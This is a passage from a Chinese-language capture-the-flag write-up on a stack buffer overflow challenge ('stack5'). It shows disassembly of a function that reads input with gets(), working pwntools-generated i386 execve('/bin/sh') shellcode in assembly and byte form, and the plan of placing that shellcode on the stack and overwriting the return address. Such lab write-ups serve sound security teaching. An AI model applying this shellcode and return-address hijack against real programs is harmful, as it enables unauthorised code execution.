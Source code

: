 ```
End of assembler dump.
gdb-peda$ disass pwnthis
Dump of assembler code for function pwnthis:
   0x0804840b <+0>:	push   ebp
   0x0804840c <+1>:	mov    ebp,esp
   0x0804840e <+3>:	sub    esp,0x48
   0x08048411 <+6>:	sub    esp,0xc
   0x08048414 <+9>:	lea    eax,[ebp-0x48]
   0x08048417 <+12>:	push   eax
   0x08048418 <+13>:	call   0x80482e0 <gets@plt>
   0x0804841d <+18>:	add    esp,0x10
   0x08048420 <+21>:	nop
   0x08048421 <+22>:	leave  
   0x08048422 <+23>:	ret    
End of assembler dump.

```
容易发现stack5跟stack4结构差不多，只是少了`win()`函数，但是这里的目标是反弹shell，所以`win()`并不关键。
要反弹shell，用c语言描述，我们需要运行代码 `excve("/bin/sh")`

利用pwntools，我们可以拿到 `excve("/bin/sh")`的汇编代码。
```
$ python 
Python 2.7.12 (default, Nov 20 2017, 18:23:56) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> print shellcraft.i386.sh()
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80

>>> asm(shellcraft.i386.sh())  
'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'


```
当然对于二进制程序来说，汇编代码也不是能直接运行的，这里用pwntools的`asm()`把汇编编译成机器码。
这里的思路是把shellcode写到栈上，再通过覆盖ret地址将程序执行流劫持到shellcode所在的位置，这样就能运行shellcode，反弹shell。
```
     --------------------------
     |                          |
     |                          |
[shellcode]["aaaaaaaaaaa"....][ret]
```